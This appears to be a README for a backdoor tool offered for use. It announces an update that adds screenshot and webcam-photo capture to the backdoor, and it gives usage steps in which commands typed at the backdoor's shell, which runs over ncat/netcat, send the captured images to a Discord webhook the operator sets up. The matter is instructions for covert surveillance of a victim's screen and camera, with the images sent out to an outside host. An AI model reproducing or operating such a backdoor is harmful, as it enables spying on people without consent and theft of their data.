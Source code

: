 THIS BACKDOOR WAS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:

[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied

For Webcam:

[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied


NOTE:- This is made for --> NCAT/NETCAT
